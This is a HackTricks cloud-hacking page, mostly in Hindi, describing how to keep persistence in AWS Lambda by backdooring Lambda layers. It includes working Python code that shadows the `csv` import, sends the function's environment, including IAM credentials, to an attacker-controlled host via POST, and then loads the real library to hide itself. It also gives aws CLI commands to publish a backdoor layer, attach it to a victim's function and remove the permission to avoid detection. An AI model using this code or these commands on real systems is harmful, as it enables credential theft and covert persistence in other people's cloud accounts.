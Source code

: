 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

एक Lambda लेयर एक .zip फ़ाइल संग्रह है जो **अतिरिक्त कोड** या अन्य सामग्री **शामिल कर सकता है**। एक लेयर में पुस्तकालय, एक [कस्टम रनटाइम](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), डेटा, या कॉन्फ़िगरेशन फ़ाइलें हो सकती हैं।

आप **प्रत्येक फ़ंक्शन के लिए पांच लेयर** तक शामिल कर सकते हैं। जब आप किसी फ़ंक्शन में एक लेयर शामिल करते हैं, तो **सामग्री को `/opt`** निर्देशिका में निष्पादन वातावरण में निकाला जाता है।

**डिफ़ॉल्ट रूप से**, जो **लेयर** आप बनाते हैं वे आपके AWS खाते के लिए **निजी** होती हैं। आप एक लेयर को अन्य खातों के साथ **साझा** करने या लेयर को **सार्वजनिक** बनाने का विकल्प चुन सकते हैं। यदि आपके फ़ंक्शन किसी अन्य खाते द्वारा प्रकाशित की गई लेयर का उपयोग करते हैं, तो आपके फ़ंक्शन **लेयर संस्करण का उपयोग जारी रख सकते हैं, भले ही इसे हटा दिया गया हो, या आपके लेयर तक पहुँचने की अनुमति को रद्द कर दिया गया हो**। हालाँकि, आप एक नई फ़ंक्शन नहीं बना सकते या हटाई गई लेयर संस्करण का उपयोग करके फ़ंक्शंस को अपडेट नहीं कर सकते।

कंटेनर छवि के रूप में तैनात फ़ंक्शन लेयर का उपयोग नहीं करते हैं। इसके बजाय, आप छवि बनाने के समय अपने पसंदीदा रनटाइम, पुस्तकालयों और अन्य निर्भरताओं को कंटेनर छवि में पैकेज करते हैं।

### Python load path

Python द्वारा lambda में उपयोग किया जाने वाला लोड पथ निम्नलिखित है:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Check how the **second** and third **positions** are occupy by directories where **lambda layers** uncompress their files: **`/opt/python/lib/python3.9/site-packages`** and **`/opt/python`**

{% hint style="danger" %}
यदि एक हमलावर ने एक उपयोग की गई lambda **layer** में **backdoor** डालने में सफलता प्राप्त की या एक ऐसा **layer** जो **एक सामान्य पुस्तकालय लोड होने पर मनमाना कोड निष्पादित करेगा** जोड़ दिया, तो वह प्रत्येक lambda कॉल के साथ दुर्भावनापूर्ण कोड निष्पादित करने में सक्षम होगा।
{% endhint %}

Therefore, the requisites are:

* **Check libraries** that are **loaded** by the victims code
* Create a **proxy library with lambda layers** that will **execute custom code** and **load the original** library.

### Preloaded libraries

{% hint style="warning" %}
जब इस तकनीक का दुरुपयोग करते समय मैंने एक कठिनाई पाई: कुछ पुस्तकालय **पहले से ही लोड** होते हैं जब आपका कोड निष्पादित होता है। मैं `os` या `sys` जैसी चीजें खोजने की उम्मीद कर रहा था, लेकिन **यहां तक कि `json` पुस्तकालय भी लोड हो चुका था**।\
इस स्थायी तकनीक का दुरुपयोग करने के लिए, कोड को **एक नया पुस्तकालय लोड करना होगा जो लोड नहीं होता** जब कोड निष्पादित होता है।
{% endhint %}

With a python code like this one it's possible to obtain the **list of libraries that are pre loaded** inside python runtime in lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
और यह **सूची** है (जांचें कि `os` या `json` जैसी पुस्तकालय पहले से मौजूद हैं)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
और यह **लाइब्रेरीज़** की सूची है जो **लैम्ब्डा डिफ़ॉल्ट रूप से शामिल करता है**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### लैम्ब्डा लेयर बैकडोरिंग

इस उदाहरण में मान लीजिए कि लक्षित कोड **`csv`** आयात कर रहा है। हम **`csv` लाइब्रेरी के आयात में बैकडोरिंग** करने जा रहे हैं।

इसके लिए, हम **`/opt/python/lib/python3.9/site-packages`** में **`csv`** नाम का डायरेक्टरी बनाएंगे जिसमें फ़ाइल **`__init__.py`** होगी।\
फिर, जब लैम्ब्डा निष्पादित होगा और **csv** को लोड करने की कोशिश करेगा, तो हमारी **`__init__.py` फ़ाइल लोड और निष्पादित होगी**।\
इस फ़ाइल को करना चाहिए:

* हमारे पेलोड को निष्पादित करें
* मूल csv लाइब्रेरी को लोड करें

हम दोनों कर सकते हैं:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
फिर, इस कोड के साथ एक ज़िप बनाएं जो पथ **`python/lib/python3.9/site-packages/__init__.py`** में हो और इसे एक लैम्ब्डा लेयर के रूप में जोड़ें।

आप इस कोड को [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor) पर पा सकते हैं।

एकीकृत पेलोड **IAM क्रेडेंशियल्स को एक सर्वर पर भेजेगा जब इसे पहली बार बुलाया जाएगा या लैम्ब्डा कंटेनर के रीसेट के बाद** (कोड में परिवर्तन या ठंडी लैम्ब्डा), लेकिन **अन्य तकनीकें** जैसे निम्नलिखित भी एकीकृत की जा सकती हैं:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### बाहरी लेयर्स

ध्यान दें कि **बाहरी खातों से लैम्ब्डा लेयर्स का उपयोग करना संभव है**। इसके अलावा, एक लैम्ब्डा एक बाहरी खाते से एक लेयर का उपयोग कर सकता है भले ही उसके पास अनुमतियाँ न हों।\
यह भी ध्यान दें कि **एक लैम्ब्डा के पास अधिकतम 5 लेयर्स हो सकती हैं**।

इसलिए, इस तकनीक की बहुपरकारीता को बढ़ाने के लिए एक हमलावर कर सकता है:

* उपयोगकर्ता की एक मौजूदा लेयर में बैकडोर डालें (कुछ भी बाहरी नहीं है)
* **अपने खाते में** एक **लेयर** **बनाएं**, **पीड़ित खाते को लेयर का उपयोग करने के लिए अनुमति दें**, **पीड़ित के लैम्ब्डा में लेयर को कॉन्फ़िगर करें** और **अनुमति हटा दें**।
* **लैम्ब्डा** अभी भी **लेयर का उपयोग करने में सक्षम होगा** और **पीड़ित** के पास **लेयर्स कोड डाउनलोड करने का कोई आसान तरीका नहीं होगा** (लैम्ब्डा के अंदर एक रिव शेल प्राप्त करने के अलावा)
* पीड़ित **`aws lambda list-layers`** के साथ उपयोग की गई बाहरी लेयर्स नहीं देखेगा।

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करें।

</details>
{% endhint %}
